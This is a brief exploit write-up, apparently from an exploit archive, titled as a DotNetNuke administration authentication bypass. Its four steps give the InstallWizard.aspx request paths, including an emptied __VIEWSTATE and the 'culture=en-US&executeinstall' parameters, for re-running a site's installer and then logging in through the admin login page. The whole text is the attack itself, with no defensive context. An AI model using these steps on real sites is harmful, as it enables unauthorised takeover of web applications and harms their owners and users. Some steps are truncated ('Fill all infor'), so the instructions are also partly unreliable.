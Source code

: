 # Exploit Title: DotNetNuke Administration Authentication Bypass
Step 1: /Install/InstallWizard.aspx?__VIEWSTATE=
Step 2: Fill all infor
Step 3: CLick continue if it don't work, just add &culture=en-US&executeinstall
or you get any error ex: 500,... just removing __VIEWSTATE=
Install/InstallWizard.aspx?culture=en-US&executeinstall
Step 4: Login /Home/tabid/36/ctl/Login/Default.aspx
